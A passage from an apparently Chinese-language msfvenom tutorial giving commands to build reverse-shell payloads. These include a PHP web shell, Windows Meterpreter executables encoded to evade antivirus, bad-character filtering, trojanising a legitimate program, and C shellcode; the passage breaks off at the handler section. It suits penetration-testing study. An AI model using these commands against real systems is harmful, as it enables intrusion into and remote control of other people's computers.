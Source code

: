 用于 Web 服务器漏洞利用。

```bash
msfvenom -p php/reverse_php LHOST=192.168.1.100 LPORT=8080 -f raw -o /var/www/html/shell.php
```

### 4.4 生成用 Shikata Ga Nai 编码的 Windows Payload

使用 `x86/shikata_ga_nai` 编码器进行多次编码，减少杀软检测的几率。

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o /root/Desktop/encoded_payload.exe
```
*   其中 `-i 5` 表示迭代编码 5 次。

### 4.5 绕过坏字符 (Bad Characters)

在某些漏洞（如缓冲区溢出）中，程序可能无法正确处理某些字符。通过 `-b` 参数可以指定这些字符。

假设 Payload 中不能包含 `\x00` (NUL) 和 `\x0a` (LF)。

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -b '\x00\x0a' -e x86/shikata_ga_nai -o /root/Desktop/shell.bin
```

### 4.6 注入 Payload 到现有 EXE 文件

将 Payload 注入到一个名为 `legit_app.exe` 的合法程序中，并尝试保留其原有功能。

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -x /path/to/legit_app.exe -k -f exe -o /root/Desktop/infected_app.exe
```

### 4.7 生成 Shellcode (C 语言格式)

方便在 C/C++ 程序中直接使用。

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c
```

**输出示例：**
```c
unsigned char buf[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
// ... (更多 Shellcode)
"\xeb\x10\xe8\xe2\xff\xff\xff\x89\x68\x04\x89\x45\x08\x6a\x00\x6a\x00\x6a\x03\x6a\x03\x6a\x00\x31\xf6"
;
```

## 五、与 Metasploit 控制台 (msfconsole) 配合使用

`msfvenom` 生成的 Payload 通常需要 `msfconsole` 中的监听器 (Handler) 来接收反向连接。
